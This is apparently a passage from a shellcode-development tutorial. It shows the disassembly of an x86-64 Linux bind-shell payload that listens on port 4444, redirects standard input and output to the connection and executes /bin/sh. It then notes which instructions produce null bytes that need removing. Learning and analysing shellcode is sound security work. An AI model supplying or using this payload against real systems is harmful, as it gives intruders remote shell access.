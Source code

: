 ```nasm
  40101c:	50                   	push   rax
  40101d:	89 44 24 fc          	mov    DWORD PTR [rsp-0x4],eax
  401021:	66 c7 44 24 fa 11 5c 	mov    WORD PTR [rsp-0x6],0x5c11
  401028:	66 c7 44 24 f8 02 00 	mov    WORD PTR [rsp-0x8],0x2
  40102f:	48 83 ec 08          	sub    rsp,0x8
  401033:	b8 31 00 00 00       	mov    eax,0x31
  401038:	48 89 e6             	mov    rsi,rsp
  40103b:	ba 10 00 00 00       	mov    edx,0x10
  401040:	0f 05                	syscall 
  401042:	b8 32 00 00 00       	mov    eax,0x32
  401047:	be 02 00 00 00       	mov    esi,0x2
  40104c:	0f 05                	syscall 
  40104e:	b8 2b 00 00 00       	mov    eax,0x2b
  401053:	48 83 ec 10          	sub    rsp,0x10
  401057:	48 89 e6             	mov    rsi,rsp
  40105a:	c6 44 24 ff 10       	mov    BYTE PTR [rsp-0x1],0x10
  40105f:	48 83 ec 01          	sub    rsp,0x1
  401063:	48 89 e2             	mov    rdx,rsp
  401066:	0f 05                	syscall 
  401068:	49 89 c1             	mov    r9,rax
  40106b:	b8 03 00 00 00       	mov    eax,0x3
  401070:	0f 05                	syscall 
  401072:	4c 89 cf             	mov    rdi,r9
  401075:	b8 21 00 00 00       	mov    eax,0x21
  40107a:	be 00 00 00 00       	mov    esi,0x0
  40107f:	0f 05                	syscall 
  401081:	b8 21 00 00 00       	mov    eax,0x21
  401086:	be 01 00 00 00       	mov    esi,0x1
  40108b:	0f 05                	syscall 
  40108d:	b8 21 00 00 00       	mov    eax,0x21
  401092:	be 02 00 00 00       	mov    esi,0x2
  401097:	0f 05                	syscall 
  401099:	48 31 c0             	xor    rax,rax
  40109c:	50                   	push   rax
  40109d:	48 bb 2f 62 69 6e 2f 	movabs rbx,0x68732f2f6e69622f
  4010a4:	2f 73 68 
  4010a7:	53                   	push   rbx
  4010a8:	48 89 e7             	mov    rdi,rsp
  4010ab:	50                   	push   rax
  4010ac:	48 89 e2             	mov    rdx,rsp
  4010af:	57                   	push   rdi
  4010b0:	48 89 e6             	mov    rsi,rsp
  4010b3:	48 83 c0 3b          	add    rax,0x3b
  4010b7:	0f 05                	syscall 
```
We can see that almost all null bytes are with "mov r32,imm8" instructions 
except one "mov m16, imm8" 
```nasm
  401028:	66 c7 44 24 f8 02 00 	mov    WORD PTR [rsp-0x8],0x2
```
and two "mov r, 0x00"
```nasm
  40100f:	ba 00 00 00 00       	mov    edx,0x0
  ...
  40107a:	be 00 00 00 00       	mov    esi,0x0
```
